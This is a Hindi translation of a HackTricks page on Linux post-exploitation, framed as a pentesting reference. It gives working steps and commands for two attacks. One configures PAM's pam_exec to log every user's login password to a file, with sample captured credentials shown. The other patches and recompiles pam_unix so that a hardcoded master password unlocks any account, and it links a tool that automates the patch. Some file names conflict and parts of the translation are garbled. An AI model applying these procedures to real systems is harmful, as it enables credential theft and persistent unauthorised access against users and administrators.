# लिनक्स पोस्ट-एक्सप्लोइटेशन

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## PAM के साथ लॉगऑन पासवर्ड को स्निफ़ करना

आइए एक PAM मॉड्यूल को कॉन्फ़िगर करें ताकि प्रत्येक पासवर्ड को लॉगिन करने वाले प्रत्येक उपयोगकर्ता का उपयोग करने पर लॉग करें। यदि आपको पता नहीं है कि PAM क्या है तो देखें:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

सबसे पहले, हम एक बैश स्क्रिप्ट बनाते हैं जो हर बार जब एक नया प्रमाणीकरण होता है, तो उसे आमंत्रित किया जाएगा।
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
```
मानक चरण PAM विशिष्ट हैं और `pam_exec.so` मॉड्यूल के माध्यम से उपलब्ध हो जाएंगे।

निम्नलिखित है चरणों का मतलब:

* **$PAM\_USER:** उस उपयोगकर्ता का नाम जो दर्ज किया गया था।
* **$PAM\_RHOST:** रिमोट होस्ट (सामान्यत: आईपी पता)
* **$(cat -):** यह `stdin` पढ़ता है, और स्क्रिप्ट द्वारा ग्रहण किया गया पासवर्ड शामिल होगा
* परिणाम `/var/log/toomanysecrets.log` पर एक लॉग फ़ाइल में पाइप किए जाते हैं

फ़ाइल को **सभी उपयोगकर्ताओं से पढ़ने से रोकने** के लिए पूर्व-सृजित करें और `chmod` चलाएं, उदा:
```bash
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
```
अगले, PAM कॉन्फ़िगरेशन फ़ाइल को अपडेट किया जाना चाहिए, `pam_exec` मॉड्यूल का उपयोग स्क्रिप्ट को आमंत्रित करने के लिए किया जाएगा।

`/etc/pam.d/` में कई कॉन्फ़िग फ़ाइलें हैं, और हम `common-auth` को चुनते हैं।
```
sudo nano /etc/pam.d/common-auth
```
फ़ाइल के नीचे, निम्नलिखित प्रमाणीकरण मॉड्यूल जोड़ें:

`auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh`

विकल्पों का निम्नलिखित अर्थ है:

* **optional:** यदि कोई त्रुटि है तो प्रमाणीकरण विफल नहीं होना चाहिए (यह एक आवश्यक चरण नहीं है)
* **pam\_exec.so:** यह जीवन की भूमि PAM मॉड्यूल है जो विभिन्न स्क्रिप्ट को आमंत्रित कर सकता है
* **expose\_authtok:** यह उपाय है जो `stdin` के माध्यम से पासवर्ड पढ़ने की अनुमति देता है
* **quiet:** उपयोगकर्ता को कोई त्रुटि न दिखाएं (यदि कुछ काम नहीं करता है)
* अंतिम तर्क है शैल स्क्रिप्ट जो पहले बनाया गया था

![](<../../.gitbook/assets/image (375).png>)

अंत में, फ़ाइल को क्रियाशील बनाएं:

`sudo chmod 700 /usr/local/bin/toomanysecrets.sh`

अब, इसे आज़माएं और दूसरे मशीन से ssh करें, या स्थानीय रूप से लॉगिन करें।

और फिर लॉग फ़ाइल पर नज़र डालें:
```
$ sudo cat /var/log/toomanysecrets.log
Sun Jun 26 23:36:37 PDT 2022 tom, Trustno1!, From: 192.168.1.149
Sun Jun 26 23:37:53 PDT 2022 tom, Trustno1!, From:
Sun Jun 26 23:39:12 PDT 2022 tom, Trustno1!, From: 192.168.1.149
```
### PAM को Backdoor करना

चलो PAM के स्रोत में जाएं (आपके डिस्ट्रो पर निर्भर करेगा, अपने वर्शन नंबर को लें..) और pam\_unix\_auth.c फ़ाइल में लाइन नंबर 170/180 के आसपास देखें:
```
vi modules/pam_unix/pam_unix_auth.c
```
![](<../../.gitbook/assets/image (651).png>)

इसे निम्नलिखित रूप में बदलें:

![](<../../.gitbook/assets/image (638) (2) (2).png>)

इससे **"0xMitsurugi" पासवर्ड** का उपयोग करने वाले किसी भी उपयोगकर्ता को लॉग इन करने की अनुमति होगी।

`pam_unix_auth.c` को पुनः कंपाइल करें, और `pam_unix.so` फ़ाइल को बदलें:
```bash
make
sudo cp \
/home/mitsurugi/PAM/pam_deb/pam-1.1.8/modules/pam_unix/.libs/pam_unix.so \
/lib/x86_64-linux-gnu/security/
```
{% hint style="info" %}
आप इस प्रक्रिया को [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor) के साथ स्वचालित कर सकते हैं।
{% endhint %}

## संदर्भ

* [https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)
* [https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड github रेपो में PR जमा करके।

</details>
